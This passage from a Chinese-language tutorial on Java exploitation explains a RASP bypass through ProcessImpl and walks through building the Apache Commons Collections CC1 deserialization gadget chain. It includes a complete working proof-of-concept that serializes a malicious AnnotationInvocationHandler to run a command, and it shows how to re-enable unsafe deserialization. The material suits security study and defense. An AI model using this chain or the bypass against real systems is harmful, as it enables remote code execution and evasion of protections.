      while ((a = in.read(b)) != -1) {
          baos.write(b, 0, a);
      }
  
      out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  
  %>
  ```

- **UNIXProcess/ProcessImpl**：

  - UNIXProcess和ProcessImpl可以理解本就是一个东西，因为在JDK9的时候把UNIXProcess合并到了ProcessImpl当中了,参考[changeset 11315:98eb910c9a97](https://hg.openjdk.java.net/jdk-updates/jdk9u/jdk/rev/98eb910c9a97)。
  - 很多人对Java本地命令执行的理解不够深入导致了他们无法定位到最终的命令执行点，OpenRASP只防御到了ProcessBuilder.start()方法，而我们只需要直接调用最终执行的UNIXProcess/ProcessImpl实现命令执行或者直接反射UNIXProcess/ProcessImpl的forkAndExec方法就可以绕过RASP实现命令执行了。

## 反序列化漏洞

### 序列化和反序列化

- 在RMI(Java远程方法调用-Java Remote Method Invocation)和JMX(Java管理扩展-Java Management Extensions)服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。
- **只有实现(继承就行了，可以不重写)了 Serializable 或 Externalizable 接口的类的对象才能被序列化和反序列化。**

  - Externalizable 接口继承自Serializable 接口，实现 Externalizable 接口的类完全由自身来控制反序列化的行为，
  - 而实现  Serializable 接口的类既可以采用默认的反序列化方式，也可以自定义反序列化方式（就是重写serializable的readObject方法）。**即反序列会执行readObject方法。**
- 对象序列化和反序列范例：操作和php，python差不多
- 定义一个User类，实现Serializable接口

  ```java
  package test;
  import java.io.Serializable;
  public class User implements Serializable{
      private String name;
      public String getName(){
          return name;
      }
      public void setName(String name){
          this.name=name;
      }
  }
  ```
- 定义主类，对User对象进行序列化和反序列化:

  ```java
  package test;
  
  import java.io.FileInputStream;
  import java.io.FileOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  public class UserSerial {
      public static void main(String[] args) throws IOException {
          UserSerial a=new UserSerial();
          try {
              a.run();    //序列化
              a.run2();   //反序列化
          } catch (IOException | ClassNotFoundException e) {
              e.printStackTrace();
          }
      }
  
      //将该对象进行序列化，存储在本地的test.txt文件中
      public static void run() throws IOException{
          FileOutputStream out=new FileOutputStream("test.txt");   //实例化一个文件输出流
          ObjectOutputStream obj_out=new ObjectOutputStream(out);  //实例化一个对象输出流
          User u=new User();
          u.setName("谢公子");
          obj_out.writeObject(u);   //利用writeObject()方法将类序列化存储在本地
  
          obj_out.close();
          System.out.println("User对象序列化成功！");
          System.out.println("***********************");
      }
      //将存储在本地test.txt的序列化数据进行反序列化
      public void run2() throws IOException,ClassNotFoundException{
          FileInputStream in = new FileInputStream("test.txt");   //实例化一个文件输入流
          ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
  
          User u=(User)ins.readObject();// 对象输入流的readObject() 方法从该对象输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回。
          System.out.println("User对象反序列化成功！");
          System.out.println(u.getName());
          ins.close();
      }
  }
  
  ```
- 自定义反序列化行为，重写readObject方法。

  ```java
  package test;
  import java.io.BufferedReader;
  import java.io.IOException;
  import java.io.InputStreamReader;
  import java.io.Serializable;
  public class User implements Serializable{
      private String name;
      public String getName(){
          return name;
      }
      public void setName(String name){
          this.name=name;
      }
      private void readObject(java.io.ObjectInputStream in)throws ClassNotFoundException,IOException, InterruptedException{
          //这里使用默认的ReadObject方法,保证我们的对象能够正常序列化
          in.defaultReadObject();
          //执行系统命令：whoami
          Process p=Runtime.getRuntime().exec("whoami");
          java.io.InputStream is=p.getInputStream();
          BufferedReader reader = new BufferedReader(new InputStreamReader(is));
          p.waitFor();
          if (p.exitValue() != 0) {
              //说明命令执行失败
              //可以进入到错误处理步骤中
          }
          String s = null;
          while ((s = reader.readLine()) != null) {
              System.out.println(s);
          }
      }
  }
  ```

### 反序列化漏洞原理

- 2015年[Apache Commons Collections反序列化漏洞](https://issues.apache.org/jira/browse/COLLECTIONS-580)([ysoserial](https://github.com/frohoff/ysoserial)的最早的commit记录是2015年1月29日）

- **反序列化漏洞的产生，就是该类继承重写了 Serializable 或 Externalizable 接口并重写readObject方法，而且这个readObject方法中有可以利用的代码。**和php反序列会执行__wakeup()一样。**我们需要找到一个类，这个类重写了readObject方法，并且该方法存在漏洞，使得我们可以利用。**

- 如何寻找可RCE的Gadget？
    - 第一，一条完整的链，需要有入口，有出口，还有中间过程。入口就是入口类，专业术语叫**source**，必须要重写readObject()方法：出口就是这条链子走完到最后产生的结果是啥，这是由最后这个类所执行的方法决定的，出口就是执行类，专业术语叫**sink**,中间过程就是调用链，专业术语**gadget chain**，经过层层套娃，顺利地从入口类的readObject()方法走到执行类的某个方法，这是最繁琐的过程，可能找了半天，构造了半天，最后发现不行。
    - 第二，**这条链子上的类都要实现Serializable或者Externalizable:接口**：其次，要具备比较通用的特点，那这条链上的类**最好是jdk自带或者JAVA常用组件里有的**。
    - 第三，**入口类**，**构造该类对象和调用其方法时参数类型广泛最好是Object类型，方便我们传入对象：且readObject()方法中调用常见方法，结合参数类型广泛和调用常见方法这两点，我们才好从入口类的readObject()方法进入到另一个类的方法。**
    - 第四，调用链，前一个类中代码调用的方法在后一个类中有，且前一个类的方法的参数类型为后一个类的类型，简单的说就是**相同方法名，相同类型**（比如CC1链中就是一系列实现了Transformer接口的类，调用类的transform()方法）
    - 第五，**执行类**，这是最重要的。费了那么大劲，最后产生的危害有多大就看这个了。危害可以是SSRF、写文件、拒绝服务等，当然我们最希望的是RCE。

- 总结：

    - ```
        共同条件：实现Serializable或者Externalizable:接口，jdk自带或者JAVA常用组件里有的
        入口类source，（重写readObject 调用常见函数，参数类型广泛，最好jdk自带）
        调用链 gadger chain：相同方法名，相同类型
        执行类sink：RCE SSRF 写文件等
        ```

- 思路

    - 那么我们要找一条可 RCE 的链子，最后的执行类应当可以调用 Runtime.getRuntime().exec()这种危险方法，要么就是它里面自己写有了这个危险方法， 要么就是我们可以控制某些参数，调用任意对象的任意方法。
    - 入口自然是某个类的 readObject()方法。
    -  那么首先，我们得要找到符合条件的一个执行类，然后通过 IDEA 的 find usages，go to 这样的功能倒回去找，看哪个类(A)的某个方法（a()）调用了执行类的危险方法，哪个类(B) 的某个方法（b()）调用了 A.a()方法.......，要求这些类都可序列化，最好是参数类型广 泛（比如 Map 系列），或者类型兼容（都继承自某个类或实现了某个接口）。而倒回去找到 的方法优先选择 readObject()。
    -  上面就是我们分析的思路了，下面就来进行CC1 链的分析。

- **Apache Commons Collections：**

  - Apache Commons Collections 是一个扩展了Java标准库里的Collection结构的第三方基础库，**它提供了很多强有力的数据结构类型并且实现了各种集合工具类**。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。
  - 这个框架中有一个InvokerTransformer.java接口，实现该接口的类可以通过调用java的反射机制来调用任意函数，于是我们可以通过调用Runtime.getRuntime.exec() 函数来执行系统命令。
  - Apache commons  collections包的广泛使用，也导致了java反序列化漏洞的大面积流行。

- **网上公开的 CC1 链有两条，分别是利用 TransformedMap和LazyMap类。首先分析 TransformedMap链，这条链子比较简单。**

### cc1—TransformedMap链

> 沃克 Walker师傅

#### 环境搭建

- **注意CC1链的条件是：Commons-Collections <= 3.2.1， jdk<8u71**。我 IDEA 中用的版本为 1.8.0_65。另外该链 中需要用到 sun 包中的类，而 sun 包在 jdk 中的代码是通过 class 文件反编译来的，不是 java 文件，不能进行调试，通过 find usages 是搜不到要找的类的，而且其代码中的对象 是 var 这样的形式，影响代码的阅读。

- 故需下载对应的 openjdk 源码，解压后可得到 sun 包源码，解压 jdk 目录的 src.zip，将 sun 包源码拷贝过去：（[如何下载各个版本的openjdk源码](https://cloud.tencent.com/developer/article/1413521)）（下载的 openjdk 版本其实与我的 jdk 并不完全匹配，但不影响分析）

    - ```cmd
        (base) PS D:\app\JAVA\jdk1.8.0_65\src> ls
        
        目录: D:\app\JAVA\jdk1.8.0_65\src
        
        Mode                 LastWriteTime         Length Name
        ----                 -------------         ------ ----
        d-----        2022/10/27     11:18                com
        d-----        2022/10/27     11:18                java
        d-----        2022/10/27     11:18                javax
        d-----        2022/10/27     11:19                launcher
        d-----        2022/10/27     11:19                org
        d-----        2022/10/27     11:57                sun
        ```

- 默认里面是没有 sun 包的，这是我拷贝过去的。然后在 IDEA 中，File-->Project Structure- ->SDKs 将 src 目录的路径加到 Sourcepath 中去

    - 

- ```xml
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
    ```

- 因为安全机制高版本（3.2.2版本及以上）`org.apache.commons.collections.functors.InvokerTransformer`类无法使用

    - 在java代码中使用下列命令，可以在3.2.2版本启动该方法

        ````java
        System.setProperty("org.apache.commons.collections.enableUnsafeSerialization","true");
        ````
    
    - 先看3.2.2，通过diff可以发现，新版代码中增加了⼀个⽅法 FunctorUtils#checkUnsafeSerialization ，⽤于检测反序列化是否安全。如果开发者没有设置全 局配置`org.apache.commons.collections.enableUnsafeSerialization=true` ，即默认情况下会 抛出异常。
    
    -  这个检查在常⻅的危险Transformer类 （ InstantiateTransformer 、 InvokerTransformer 、 PrototypeFactory 、 CloneTransforme r 等）的 readObject ⾥进⾏调⽤，所以，当我们反序列化包含这些对象时就会抛出⼀个异常：
    
        - ```cmd
             Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources
            ```
    
        - 以后如果看到这样的报错，就知道是什么原因了。

#### 漏洞分析

##### **sink类—Transformer接口：**

- 起点是一个 Transformer 接口，位于 org.apache.commons.collections 包中：

    

    ```java
    public interface Transformer {
    
        /**
         * Transforms the input object (leaving it unchanged) into some output object.
         *
         * @param input  the object to be transformed, should be left unchanged
         * @return a transformed object
         * @throws ClassCastException (runtime) if the input is the wrong class
         * @throws IllegalArgumentException (runtime) if the input is invalid
         * @throws FunctorException (runtime) if the transform cannot be completed
         */
        public Object transform(Object input);
    
    }
    ```

- transform 意为转换，转化，transformer 可理解为转换器、修饰器的意思。只有一个 transform()方法，根据介绍可知道其作用是对传入的对象进行修饰，不改变其类型。来看 看有哪些类实现了这个接口：

- 

- 显示 21 个其实也就14个，BeanMap 是重复的，我们可以逐个打开看看它们的 transform()方法都有什么用。其中，之后会用到的类会有这么几个：

- **ChainedTransformer**

    - ```java
        public class ChainedTransformer implements Transformer, Serializable {
        
            /** Serial version UID */
            private static final long serialVersionUID = 3514945074733160196L;
        
            /** The transformers to call in turn */
            private final Transformer[] iTransformers;   
            
        	/**
             * Transforms the input to result via each decorated transformer
             * 
             * @param object  the input object passed to the first transformer
             * @return the transformed result
             */
            public Object transform(Object object) {
                for (int i = 0; i < iTransformers.length; i++) {
                    object = iTransformers[i].transform(object);
                }
                return object;
            }
        }
        ```

    - 该类维护了一个 Transformer 接口类型的数组 iTransformers，transform 方法是先将输入 的对象交给 iTransformers 数组的第一个转换器的 transform()方法进行修饰，修饰后的 结果又作为下一个转化器的 transform()方法要修饰的对象，简单来说就是当前的结果作 为下一个步骤的输入，将最后的结果返回。有一种链式反应的感觉。

- **ConstantTransformer**

    - ```java
        /*
         *  Licensed to the Apache Software Foundation (ASF) under one or more
         *  contributor license agreements.  See the NOTICE file distributed with
         *  this work for additional information regarding copyright ownership.
         *  The ASF licenses this file to You under the Apache License, Version 2.0
         *  (the "License"); you may not use this file except in compliance with
         *  the License.  You may obtain a copy of the License at
         *
         *      http://www.apache.org/licenses/LICENSE-2.0
         *
         *  Unless required by applicable law or agreed to in writing, software
         *  distributed under the License is distributed on an "AS IS" BASIS,
         *  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
         *  See the License for the specific language governing permissions and
         *  limitations under the License.
         */
        package org.apache.commons.collections.functors;
        
        import java.io.Serializable;
        
        import org.apache.commons.collections.Transformer;
        
        /**
         * Transformer implementation that returns the same constant each time.
         * <p>
         * No check is made that the object is immutable. In general, only immutable
         * objects should use the constant factory. Mutable objects should
         * use the prototype factory.
         * 
         * @since Commons Collections 3.0
         * @version $Revision: 646777 $ $Date: 2008-04-10 13:33:15 +0100 (Thu, 10 Apr 2008) $
         *
         * @author Stephen Colebourne
         */
        public class ConstantTransformer implements Transformer, Serializable {
        
            /** Serial version UID */
            private static final long serialVersionUID = 6374440726369055124L;
            
            /** Returns null each time */
            public static final Transformer NULL_INSTANCE = new ConstantTransformer(null);
        
            /** The closures to call in turn */
            private final Object iConstant;
        
        
            /**
             * Constructor that performs no validation.
             * Use <code>getInstance</code> if you want that.
             * 
             * @param constantToReturn  the constant to return each time
             */
            public ConstantTransformer(Object constantToReturn) {
                super();
                iConstant = constantToReturn;
            }
        
            /**
             * Transforms the input by ignoring it and returning the stored constant instead.
             * 
             * @param input  the input object which is ignored
             * @return the stored constant
             */
            public Object transform(Object input) {
                return iConstant;
            }
        ```

    - 该类维护了一个 iConstant 恒定不变的 Object 对象，是由创建时通过构造器传入，其 transform 方法是无视传入的对象，直接返回该 iConstant。所以叫 ConstantTransformer 。


**InvokerTransformer（执行类）**：

- ```java
  /**
   * Transformer implementation that creates a new object instance by reflection.
   * 
   * @since Commons Collections 3.0
   * @version $Revision: 646777 $ $Date: 2008-04-10 13:33:15 +0100 (Thu, 10 Apr 2008) $
   *
   * @author Stephen Colebourne
   */
  public class InvokerTransformer implements Transformer, Serializable {
  
      /** The serial version */
      private static final long serialVersionUID = -8653385846894047688L;
      
      /** The method name to call */
      private final String iMethodName;
      /** The array of reflection parameter types */
      private final Class[] iParamTypes;
      /** The array of reflection arguments */
      private final Object[] iArgs;
     
      /**
       * Constructor for no arg instance.
       * 
       * @param methodName  the method to call
       */
      private InvokerTransformer(String methodName) {
          super();
          iMethodName = methodName;
          iParamTypes = null;
          iArgs = null;
      }
  
      /**
       * Constructor that performs no validation.
       * Use <code>getInstance</code> if you want that.
       * 
       * @param methodName  the method to call
       * @param paramTypes  the constructor parameter types, not cloned
       * @param args  the constructor arguments, not cloned
       */
      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
          super();
          iMethodName = methodName;
          iParamTypes = paramTypes;
          iArgs = args;
      }
  
  
  /**
       * Transforms the input to result by invoking a method on the input.
       * 
       * @param input  the input object to transform
       * @return the transformed result, null if null input
  */
  public Object transform(Object input) {
      if (input == null) {
          return null;
      }
      try {
          Class cls = input.getClass();
          Method method = cls.getMethod(iMethodName, iParamTypes);
          return method.invoke(input, iArgs);
  
      } catch (NoSuchMethodException ex) {
          throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
      } catch (IllegalAccessException ex) {
          throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
      } catch (InvocationTargetException ex) {
          throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
      }
  }
      
  }
  ```

- 该类的 transform 方法是通过反射获取我们所传入的对象的方法，然后进行调用（public 访问修饰的方法），故而叫 InvokerTransformer。其中的对象、方法名、 参数类型、参数都类型广泛，且都由我们控制，可调用任意对象的任意方法 我们很容易就写出下面的代码来弹计算器：

  - ```java
    import org.apache.commons.collections.functors.InvokerTransformer;
    
    public class CC1 {
        public static void main(String[] args) {
            InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
            invokerTransformer.transform(Runtime.getRuntime());
        }
    }
    
    ```

##### 寻找Gadget—TransformedMap类

- **按照思路，执行类找到了，接下来就要去找哪个类中有方法调用了**

- **重复找多次Gadget知道找到方法是在`readObject()`调用的。**

- **`InvokerTransformer.transform()`这个危险方法，通过 find usages 来看下：**

- 

可以看到库中有17个方法，那哪些方法合适呢？

- 要求是要**能序列化**，参数类型广泛，**优先 readObject()(这样就直接找到了source类了)**。**我们的transformers对象要能传入到这个类当中（类的构造函数或者当前方法有这个参数）。**且方法名不应是 transform()，因为如果方法名是 transform()，那不就嵌套了吗，那我们找到的这个函数就没法调用了。
- 最后找到的6个类

- 对应方法为

    - ```java
        TransformedPredicate.ecaluate()
        TransformerClosure.ecaluate()
        TransformerPredicate.ecaluate()
        DefaultedMap.get()
        LazyMap.get()
        TransformedMap.transformKey()
        TransformedMap.transformValue()
        TransformedMap.checkSetValue()
        ```

- 按照考量，我们优先选择 TransformedMap。首先它是 Map 系列，其次有多个方法调用到 transform()，机会更多。

**TransformedMap类: 扩展的Map类**

- **Commons  Collections 实现了一个TransformedMap类，该类是对Java标准数据结构Map(也就是python的字典，有key和value)接口的一个扩展**。**该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义**，Transformer在TransformedMap实例化时作为参数传入。

- 通过 keyTransformer 和 valueTransformer 的 transform()方法分别对键和值进行修饰，这两个可由我们控制传入，只要是 Transformer 类型就行。其构造器是 protected 的，不能直接 new，但我们可以通过 pubulic 访问属性的静态方法 decorate()来获得对象实例。

    - ```java
        protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
            super(map);
            this.keyTransformer = keyTransformer;
            this.valueTransformer = valueTransformer;
        }
        
        public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
            return new TransformedMap(map, keyTransformer, valueTransformer);
        }
        ```

- 我们让传入的 valueTransformer 为 InvokerTransformer 对象，put 时传入的 value 为 Runtime.getRuntime(),key 任意，很容易就写出下面的代码来弹计算器：

    - ```java
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.TransformedMap;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1 {
            public static void main(String[] args) {
                InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
                Map map = new HashMap();
                Map transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
                transformedMap.put(1,Runtime.getRuntime());
            }
        }
        ```

- 接下来我们就要找哪个类的方法中调用到了 `TransformedMap` 的这三个方法，其中 `transformkey()`和 `transformValue()`只在本类中进行了调用(**put方法，transformMap方法**)，`checkSetValue()`方法只在 抽象类 AbstractInputCheckedMapDecorator 的静态内部类 **MapEntry 的 setValue()方法**中 进行了调用：

    - ```java
            static class MapEntry extends AbstractMapEntryDecorator {
        
                /** The parent map */
                private final AbstractInputCheckedMapDecorator parent;
        
                protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
                    super(entry);
                    this.parent = parent;
                }
        
                public Object setValue(Object value) {
                    value = parent.checkSetValue(value);
                    return entry.setValue(value);
                }
            }
        ```

- AbstractInputCheckedMapDecorator 是 TransformedMap 的父类。对 HashMap 比较熟悉的 话对 Map.Entry 一定也不会陌生。 这里简单说一下，我们知道 Map 是用来存放键值对的，HashMap 中一对 k-v 是存放在 HashMap$Node 中的，而 Node 又实现了 Entry 接口，所以可以粗略地认为 k-v 是存放在 Entry 中的，遍历 Map 时,可以通过 entrySet()方法获取到一对对的 k-v（Map.Entry 类 型）。

- 如下代码，通过遍历 TransformedMap，再使用 setValue()传入 Runtime.getRuntime()就可以弹计算器，想想这是为什么？

    - ```java
        import org.apache.commons.collections.functors.InvokerTransformer;
        import org.apache.commons.collections.map.TransformedMap;
        import java.util.HashMap;
        import java.util.Map;
        
        public class CC1 {
            public static void main(String[] args) {
                InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
                Map map = new HashMap();
                Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);
                for (Map.Entry entry:transformedMap.entrySet()){
                    entry.setValue(Runtime.getRuntime());
                }
            }
        }
        ```

##### 寻找Source类-AnnotationInvocationHandler类

- **目前的构造还需要依赖于修改Map中的Value值或者key去触发调用反射链，我们需要想办法通过readObject()直接触发。**
- **如果某个可序列化的类重写了readObject()方法，并且在readObject()中对Map类型的变量进行了键值修改操作，并且这个Map参数是可控的，那么就有反序列化漏洞了。**
- 再接着找谁调用了这个 setValue()方法，并且在readObject()函数里面：
    - 

- 此处找到可能的入口：AnnotationInvocationHandler.readObject()，这个类在 sun.reflect.annotation 包中!

**AnnotationInvocationHandler类**

- JDK 版本有要求，需在 `8u71` 之前，8u71之后AnnotationInvocationHandler 在重写的 readObject() 方法中移除了 memberValue.setValue的调用，也就没有漏洞了。

- 看这个类代码好像有点复杂，我们先看下构造函数，需要传入一个 Map 对象 memberValues,

- readObject()方法中重点看 for 循环，首先会对反序列化出来的 memberValues 进行遍历，然后会进行一些 if 语句的判断，满足条件就会调用 setValue 方 法，而 setValue 的参数似乎不是我们能控制的。有没有什么办法解决？

- 其次，Runtime 这 个类是不可序列化的，怎么能加入到序列化与反序列化过程中去呢？第三， AnnotationInvocationHandler 这个类不是 public 的，构造器也不是 public 的，不能直 接创建，怎么解决？后面会讲解，下面来捋捋我们的整个过程。

    - 首先我们找到了 Transformer 接口的实现类 InvokerTransformer 作为执行类，它的 transform()方法是通过反射获取我们所传入对象的方法，然后进行调用（需 public 访问 修饰的方法）,其中的对象、方法名、参数类型、参数都类型广泛，且都可以由我们控制， 可以调用任意对象的任意方法，这是核心点
    - 之后我们找到 TransformedMap 的 checkSetvalue()方法会调用 transform(),而 checkSetvalue()会在 AbstractInputCheckedMapDecorator 的静态内部类 MapEntry 的 setValue()中调用，TransformedMap 继承自 AbstractInputCheckedMapDecorator，所以前面我们通过遍历 TransformedMap 得到 Map.Entry 再调用 setValue()就会弹计算器。
    - 在 AnnotationInvocationHandler 的 readObject()方法中若满足一定条件会调用 setValue() 方法。 以上是对逆推找 Gadget 的过程总结，

- **setValue 的参数不是我们能控制的，怎么解决？**

    - ChainedTransformer 和 ConstantTransformer。创建一个 ConstantTransformer 对象，直接传入 iConstant 为 Runtime.getRuntime()，放置在 ChainedTransformer 的 iTransformers 数组的第一个，原 先的 InvokerTransformer 对象放在第二个，ChainedTransformer 传入到 valueTransformer。这样不管 value 为多少，最终都能弹计算器。

- **Runtime 不可序列化问题** ？

    - 利用反射来解决，因为 Class 这个类是可序列化的：

        - ```java
            public final class Class<T> implements java.io.Serializable,
                                          GenericDeclaration,
                                          Type,
                                          AnnotatedElement {
            ```

    - 通过反射，获取 Runtime 的 class 对象，就可将其变成可序列化的。将 Runtime.getRuntime().exec()写成反射形式就是：

        - ```java
            import java.io.IOException;
            import java.lang.reflect.InvocationTargetException;
            import java.lang.reflect.Method;
            
            public class CC1 {
                public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, IOException {
                    Class runtimeClass = Runtime.class;
                    Method method = runtimeClass.getMethod("getRuntime", null);
                    Runtime r = (Runtime) method.invoke(null, null);
                    r.exec("calc");
                }
            }
            ```

        - 转化为 Transformers 就是:

            - ```java
                Transformer[] transformers = new Transformer[]{
                                new ConstantTransformer(Runtime.class),
                                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})};
                        }
                ```

- AnnotationInvocationHandler 类是非 public 的，如何引入呢（不引入没法写poc）？

    - **反射调用就行**

    - ```java
        AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
                Class<?>[] superInterfaces = type.getInterfaces();
                if (!type.isAnnotation() ||
                    superInterfaces.length != 1 ||
                    superInterfaces[0] != java.lang.annotation.Annotation.class)
                    throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
                this.type = type;
                this.memberValues = memberValues;
            }
        ```

    - 其构造器是要传入一个 Annotation 子类（注解类）的 class 对象 type 和一个 map 对象 memberValues(我们传入构造好的 TransformedMap)。

    - 先来看 readObject()的前半段：

        - ```java
            private void readObject(java.io.ObjectInputStream s)
                    throws java.io.IOException, ClassNotFoundException {
                    s.defaultReadObject();
            
                    // Check to make sure that types have not evolved incompatibly
            
                    AnnotationType annotationType = null;
                    try {
                        annotationType = AnnotationType.getInstance(type);
                    } catch(IllegalArgumentException e) {
                        // Class is no longer an annotation type; time to punch out
                        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
                    }
            
                    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
            ```

        - 我们跟进 AnnotationType 来看下：

        - 根据注释结合 readObject()的前半段代码来看，AnnotationInvocationHandler 对象在反 序列化时会通过 getInstance 获取注解的实例来检查反序列化出来的 type 是否合法，不合 法抛出异常，合法就通过 memberTypes()是获取其成员类型（其实就是注解的方法名和返回类 型），存储在 HashMap>中。

        - 重点还是 for 循环：

            - ```java
                for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
                    String name = memberValue.getKey();
                    Class<?> memberType = memberTypes.get(name);
                    if (memberType != null) {  // i.e. member still exists
                        Object value = memberValue.getValue();
                        if (!(memberType.isInstance(value) ||
                                value instanceof ExceptionProxy)) {
                            memberValue.setValue(
                                new AnnotationTypeMismatchExceptionProxy(
                                    value.getClass() + "[" + value + "]").setMember(
                                        annotationType.members().get(name)));
                }
                
                ```

        - 遍历反序列化出来的 TransformedMap，逐个获取键名，

        - 第一个 if 表达的意思是若该键名 与 注解实例 的某个方法名相同，则获取该键名的值。

        - 第二个 if 表达的意思是若注解实例方法的返回类型不是键名对应的值的实例 或者 键名对应的值是 ExceptionProxy 的实例，则 修改键名对应的值。

        - 显然第二个 if 很容易满足，第一个 if 只要遍历出来的TransformedMap 的键名与所传入注解的方法名相同就满足。

        - 注解类有很多:

            - 

            - 随便找一个成员不为空的就行，因为键名是我们可以控制的。比如，我找的 Target 注解中有 value 方法，返回类型是ElementType[]：

                - ```java
                    @Documented
                    @Retention(RetentionPolicy.RUNTIME)
                    @Target(ElementType.ANNOTATION_TYPE)
                    public @interface Target {
                        /**
                         * Returns an array of the kinds of elements an annotation type
                         * can be applied to.
                         * @return an array of the kinds of elements an annotation type
                         * can be applied to
                         */
                        ElementType[] value();
                    }
                    ```

            - 将键名设为 value 就行。最后再加入序列化和反序列化可得完整代码

- 测试代码

    ```java
    package cc;
    
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    
    import java.io.*;
    import java.lang.annotation.Target;
    import java.lang.reflect.Constructor;
    import java.util.HashMap;
    import java.util.Map;
    
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.map.TransformedMap;
    
    public class CC1 {
        public static void main(String[] args) throws Exception{
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
    
            Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
    
            Map innerMap = new HashMap();   //实例化一个Map对象
            innerMap.put("value", "value");
    
            Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
    
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
    
            FileOutputStream f = new FileOutputStream("./test.txt");
            ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
            out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
            out.flush();
            out.close();
            //开始反序列化test.txt文件
            Unser();
        }
    
        public static void Unser() throws IOException,ClassNotFoundException{
            FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
            ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
            User u= (User) ins.readObject();   //反序列化
            System.out.println("反序列化成功！");
            ins.close();
        }
    
    }
    class User implements Serializable{
        private String name;
        public String getName(){
            return name;
        }
        public void setName(String name){
            this.name=name;
        }
    }
    ```

- 弹出了计算器。

  ```shell
  Exception in thread "main" java.lang.ClassCastException: sun.reflect.annotation.AnnotationInvocationHandler cannot be cast to test.User
  	at test.Annotest.Unser(Annotest.java:52)
  	at test.Annotest.main(Annotest.java:46)
  虽然会报类转换错误，但是是先反序列化成对象，然后 (User)转换的。所以没有关系。
  ```

### cc1—LazyMap分析：

- `Commons-Collections <= 3.2.1， jdk<8u71`

- 之前我们找Gadget的时候，还有几个调用链没有分析，`LazyMap.get()`

- LazyMap和HashMap有什么区别？

    - Lazymap意思就是这个Map中的键/值对一开始并不存在，当被调用到时才创建
    - 我们这样来理解，我们需要一个Map,但是由于创建成员的方法很“重”（比如数据库访问）
    - 我们只有在调用get()时才知道如何创建，或者Map中出现的可能性很多
    - 我们无法在get()之前添加所有可能出现的键/值对
    - 我们觉得没有必要去初始化一个Map而又希望它在必要时自动处理数据。

- 关于 Lazymap的使用再说两点，LazyMap的构造函数也是protected无法new生成对象，一般需要使用 Lazymap. decorate(Map, Factory)的方式来创建。传入map和transformer即可构造lazymap。

    ```java
        /**
         * Factory method to create a lazily instantiated map.
         * 
         * @param map  the map to decorate, must not be null
         * @param factory  the factory to use, must not be null
         * @throws IllegalArgumentException if map or factory is null
         */
        public static Map decorate(Map map, Factory factory) {
            return new LazyMap(map, factory);
        }
        /**
         * Factory method to create a lazily instantiated map.
         * 
         * @param map  the map to decorate, must not be null
         * @param factory  the factory to use, must not be null
         * @throws IllegalArgumentException if map or factory is null
         */
        public static Map decorate(Map map, Transformer factory) {
